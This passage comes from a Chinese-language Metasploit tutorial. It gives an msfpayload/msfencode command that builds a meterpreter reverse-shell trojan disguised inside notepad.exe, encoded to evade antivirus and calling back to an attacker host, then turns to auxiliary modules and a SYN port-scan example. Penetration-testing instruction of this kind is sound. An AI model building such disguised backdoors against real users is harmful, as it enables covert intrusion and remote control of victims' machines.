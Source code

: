 3、伪装你的木马文件  大多数情况下，当被攻击的用户运行类似我们上面生成的包含后门的可执行文件时，因为什么都没有发生，这很可能会引起用户的怀疑。为了避免被目标察觉，我们可以在启动攻击载荷的同时，捆绑一个宿主程序，让木马达到伪装的效果。  这里使用windows下著名的文本编辑器notepad.exe（32位）程序作宿主程序来进行演示，notepad.exe文件可以在网上下载或者直接从windows系统的c:\windows\system32路径下拷贝出来。 

以下生成的木马文件在受攻击端打开时会启动正常的notepad文本编辑器，同时后门程序会在另一个独立进程中执行，连回攻击端。并且具备一定的免杀能力。 

```
msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.116.128 LPORT=10086 R | msfencode -e x86/shikata_ga_nai -c 5 -x Desktop/notepad.exe -k -t exe -o Desktop/muma_notepad.exe
```

请输入图片描述 捆绑宿主程序 

请输入图片描述 运行时启动宿主程序，起到伪装效果 

请输入图片描述 生成的文件具备一定免杀能力 

参数解释 “-x”： 绑定木马到制定程序 “-k”： 配置攻击载荷在独立的线程中启动 

注意 “-k”参数会配置攻击载荷在一个独立的线程中启动，这样宿主程序在执行时不会受到影响，但此参数不一定能用在所有可执行程序上，实际攻击前请确保你已经在实验环境中进行了测试。 

### 6、辅助模块（Auxiliary）

------

#### 6.1 简介

Metasploit的辅助模块主要用于信息搜集阶段，功能包括扫描、口令猜解、敏感信息嗅探、FUZZ测试发掘漏洞、实施网络协议欺骗等。这些模块可以分为Admin、Scanner、Server三个大类。 

Admin Admin HTTP Modules Admin MSSQL Modules Admin MySQL Modules Admin Postgres Modules Admin VMWare Modules 

Scanner DCERPC Discovery FTP HTTP IMAP MSSQL MySQL NetBIOS POP3 SMB SMTP SNMP SSH Telnet TFTP VMWare VNC 

Server Server Capture Modules 

#### 6.2 SYN端口扫描实例

1、进入msfconsole之后，使用auxiliary的syn扫描模块“use  auxiliary/scanner/portscan/syn”，接着检查参数情况“show options”，设置必填参数“set RHOSTS 192.168.198.110,120,221-224”，运行“run”。 

Tips：多IP参数设置方法 Nmap、Metasploit等工具经常会遇到多ip设置，其语法为：  一个ip段，使用“-”来表示，如192.168.1.20到192.168.1.35可以表示为“192.168.1.20-35”；多个不连续的ip可以用“，”分隔开，如192.168.1.55和192.168.1.66两个不连续ip可以用“192.168.1.55,66”来表示。 